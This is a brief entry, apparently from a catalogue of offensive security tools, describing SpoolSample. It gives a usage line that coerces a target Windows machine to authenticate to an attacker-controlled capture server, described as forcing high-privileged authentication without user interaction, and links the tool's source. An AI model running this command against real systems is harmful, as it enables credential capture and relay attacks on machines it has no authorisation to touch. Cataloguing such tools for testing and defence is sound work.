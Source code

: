 # Name
SpoolSample

## Usage
```
# Force high-privileged auth without any user interaction
SpoolSample.exe <target-machine> <capture-server>
```

## Source
https://github.com/leechristensen/SpoolSample

